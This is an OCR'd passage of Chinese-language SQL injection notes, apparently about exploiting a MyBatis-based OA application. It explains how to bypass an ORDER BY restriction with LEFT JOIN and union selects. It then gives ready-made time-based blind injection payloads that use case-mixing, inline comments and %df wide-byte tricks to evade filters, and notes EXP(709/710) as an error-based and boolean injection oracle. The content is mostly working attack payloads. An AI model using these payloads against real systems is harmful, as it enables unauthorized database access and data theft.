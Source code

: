 ```xml
        order by u.catelog_name
     </select>
```

* 这里如果想进行union注入,后面order by u.catelog_name由于指定了表和字段名,做出了一定限制

```sql
# 可以采用左联结突破限制
SELECT * FROM information_schema.SCHEMATA AS s LEFT JOIN test.user AS u ON s.SQL_PATH=u.name ORDER BY u.pwd
```

* 复杂语句order by无法突破

```sql
# 正确
SELECT * FROM (SELECT n.*,u.* FROM   aoa_notice_list AS n LEFT JOIN aoa_notice_user_relation AS u ON   n.notice_id=u.relatin_notice_id WHERE  n.title LIKE '%%' union select 1,2,3,4,5,6,7,8 AS type_id,9,10,11,12,13,14 FROM aoa_notice_list AS n)AS n ORDER BY  n.type_id DESC 
# 错误,n.type_id不对
SELECT n.*,u.* FROM   aoa_notice_list AS n LEFT JOIN aoa_notice_user_relation AS u ON   n.notice_id=u.relatin_notice_id WHERE  n.title LIKE '%%' union select 1,2,3,4,5,6,7,8 AS type_id,9,10,11,12,13,14 FROM aoa_notice_list AS n ORDER BY  n.type_id DESC 
```

#### 其他payload

```txt
1'AnD(SElEcT*from(SElEcT%20SlEeP/**/(6))a/**/uNIoN/**/SElEcT%201)='
1"AnD(SElEcT*from(SElEcT%20SlEeP/**/(6))a/**/uNIoN/**/SElEcT%201)="
1/**/AnD%20(SElEcT%208380%20FROM%20(SElEcT(SlEeP/**/(6)))smWE)
1\'AnD(SElEcT*from(SElEcT%20SlEeP/**/(6))a/**/uNIoN/**/SElEcT%201)=\'
1\"AnD(SElEcT*from(SElEcT%20SlEeP/**/(6))a/**/uNIoN/**/SElEcT%201)=\"
1%df'AnD(SElEcT*from(SElEcT%20SlEeP/**/(6))a/**/uNIoN/**/SElEcT%201)=%df'
1%df"AnD(SElEcT*from(SElEcT%20SlEeP/**/(6))a/**/uNIoN/**/SElEcT%201)=%df"
,(if(1=1,%20sleep/**/(6),0))
```



* `EXP(if(1=1,709,710))` EXP(709)是合法的，而710则会因为值超过DOUBLE的范围而报错。这里既可以用于报错注入也可以布尔注入，布尔注入的原理是通过控制if的条件，从而控制SQL语句是否报错（是否能正常返回值）
